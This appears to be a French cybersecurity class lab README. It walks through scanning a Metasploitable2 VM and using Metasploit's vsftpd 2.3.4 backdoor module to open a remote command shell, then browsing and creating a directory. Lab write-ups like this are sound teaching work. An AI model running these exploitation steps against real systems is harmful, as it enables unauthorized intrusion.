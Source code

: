 # Vulnérabilités: Utilisation d'un exploit Metasploit pour ouvrir une "backdoor" sur la machine Metaspoitable.

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux. On utilisera un exploit afin d'ouvrir la backdoor.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....

>Port     STATE    Service    Version
>
> **21/tcp   open  ftp   vsf......**
>
>  .....

**vsftpd** est un serveur FTP.

On va rechercher avec Metasploit s'il existe des vulnaréabilité sur les **vsf...**

    search vsftpd
    
réponse attendue:
>
>Names  Description Date Rank ...
>
>0 aux .....
>
>1 exploit/unix/ftp/vsftpd-234_backdoor ... 2011-07-03  ecellent  No

Ici on voit qu'il a trouvé un exploit : **exploit/unix/ftp/vsftpd-234_backdoor** , avec le nom on peut en déduire qu'il y a une backdoor.

On va chercher plus d'informations

      info exploit/unix/ftp/vsftpd-234_backdoor

réponse attendue:
>
> Name: vsftpd .............
>
> Module: exploit/unix/...........
>
>.....
>
>Provides by:
>
> Basic options:    Names : **RHOSTS**
>
> Payload information:
>
>Description:
>** This module exploits a malicious backdoor .....
>
>References:
>

On va utiliser cette vulnérabilité

    use exploit/unix/ftp/vsftpd-234_backdoor

msf6 exploit(unix/ftp/vsft...backdoor) >
 
RHOST signifie Remote Host "hôte distant". C'est l'adresse IP de la machine cible, ici metaspoitable. On note RHOSTS si on veut définir une ou plusieurs adresses IP cibles.


    set RHOST 192.168.56.XX
 * Set permet de leur attribuer une valeur à RHOST , ici l'adresse IP de la VM linux vulnérable Metasploitable.


Un **exploit** est un module qui permet d'exploiter une vulnérabilité spécifique sur un système cible.

    exploit

réponse attendue:
>
> [*] 192.168.56.XX:21 - Banners: 220 ......
>
>.....
>
> [*]  Command shell session 1 opened (192.168.101:42107  --> 192.168.56.XX:6200 at 2025-06-14 10:31:05 +0200

------

## Test la backdoor

on peux se déplacer , créer un répertoire , ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.

>[!TIP]
>
> Pour supprimer ce type de vulnérabilités vous devez impérativement mettre à jours vous systèmes et leurs applications.

